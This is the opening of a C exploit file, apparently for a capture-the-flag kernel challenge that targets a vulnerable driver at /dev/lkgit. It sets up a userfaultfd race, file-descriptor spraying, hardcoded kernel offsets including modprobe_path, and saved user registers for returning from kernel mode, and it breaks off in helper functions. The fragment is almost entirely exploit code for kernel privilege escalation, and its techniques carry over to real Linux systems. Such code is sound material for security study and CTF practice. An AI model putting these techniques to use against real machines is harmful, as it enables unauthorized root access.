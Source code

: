 ```exploit.c

#include "../src/include/lkgit.h"// commands

#define DEV_PATH "/dev/lkgit"   // the path the device is placed
#define ulong unsigned long
#define scu static const unsigned long

#// constants
#define PAGE 0x1000
#define NO_FAULT_ADDR 0xdead0000
#define FAULT_ADDR    0xdead1000
#define FAULT_OFFSET PAGE
#define MMAP_SIZE 4*PAGE
#define FAULT_SIZE MMAP_SIZE - FAULT_OFFSET
// (END constants)

// globals
int uffd;
struct uffdio_api uffdio_api;
struct uffdio_register uffdio_register;
int lkgit_fd;
char buf[0x400];
unsigned long len = 2 * PAGE;
void *addr = (void*)NO_FAULT_ADDR;
void *target_addr;
size_t target_len;
int tmpfd[0x300];
int seqfd;
struct sockaddr_in saddr = {0};
struct msghdr socketmsg = {0};
struct iovec iov[1];

ulong single_start;
ulong kernbase;

ulong off_single_start = 0x01adc20;
ulong off_modprobepath = 0x0c3cb20;
// (END globals)


// utils
#define WAIT getc(stdin);
#define errExit(msg) do { perror(msg); exit(EXIT_FAILURE); \
                        } while (0)
ulong user_cs,user_ss,user_sp,user_rflags;

/** module specific utils **/

char* hash_to_string(char *hash) {
  char *hash_str = calloc(HASH_SIZE * 2 + 1, 1);
  for(int ix = 0; ix != HASH_SIZE; ++ix) {
    sprintf(hash_str + ix*2, "%02lx", (unsigned long)(unsigned char)hash[ix]);
  }
  return hash_str;
}

char* string_to_hash(char *hash_str) {
  char *hash = calloc(HASH_SIZE, 1);
  char buf[3] = {0};
  for(int ix = 0; ix != HASH_SIZE; ++ix) {
    memcpy(buf, &hash_str[ix*2], 2);
    hash[ix] = (char)strtol(buf, NULL, 16);
  }
```